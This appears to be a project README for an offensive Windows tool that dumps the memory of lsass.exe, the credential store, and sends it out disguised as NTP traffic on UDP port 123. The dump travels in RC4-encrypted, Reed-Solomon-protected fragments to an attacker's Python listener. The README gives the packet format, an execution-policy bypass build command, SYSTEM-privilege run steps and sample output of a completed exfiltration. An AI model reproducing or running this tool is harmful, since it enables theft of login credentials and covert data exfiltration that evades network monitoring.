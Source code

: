 ### Data Embedding Details

- **Header Packet:**
  - 4 bytes: Total number of fragments
  - 4 bytes: Total compressed dump size
- **Data Packets:**
  - 4 bytes: Fragment sequence number (encrypted with RC4)
  - 4 bytes: Data fragment (encrypted with RC4)
- **RFEC (Reed-Solomon) Packets:**
  For each block of data fragments, an equal number of parity fragments is generated using the Reed-Solomon algorithm. These packets are marked with a special high-order bit in the sequence number to denote RFEC data.

## Installation & Compilation

### Windows (PowerShell)

If you are using Visual Studio Code or another configured development environment:
1. Open a PowerShell window and run:
   ```powershell
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   ```
   This script compiles `memdump.c` while linking against the necessary libraries (`ws2_32.lib` and `DbgHelp.lib`).

## Usage

1. **Run the Dumper (Attacker)**

   On Windows, run:
   ```powershell
   .\memdump.exe
   ```
   You will be prompted to enter the receiver’s IP address and port for exfiltration.

   **Important:** The executable must be run with SYSTEM privileges to properly access `lsass.exe`'s memory.

2. **Run the Receiver (Listener)**

   On the attacker's machine, run:
   ```bash
   python3 server.py
   ```
   The Python receiver listens on UDP port 123 (NTP), reassembles the incoming fragments, decompresses the memory dump, and saves it as a file (typically named `dump_memory.bin`).

## Example Execution

### Attacker (Dumper)

```plaintext
[*] Enter receiver IP: 192.168.1.100
[*] Enter receiver port: 123
[+] Decoded target process: lsass.exe
[+] Process lsass.exe found with PID 1234
[+] Memory dump completed. Size: 16 MB.
[+] Compression completed. Compressed size: 512 KB.
[+] Header sent: 128 fragments, 512 KB total.
[+] Data packet for fragment 1/128 sent.
...
[+] Transmission completed.
```
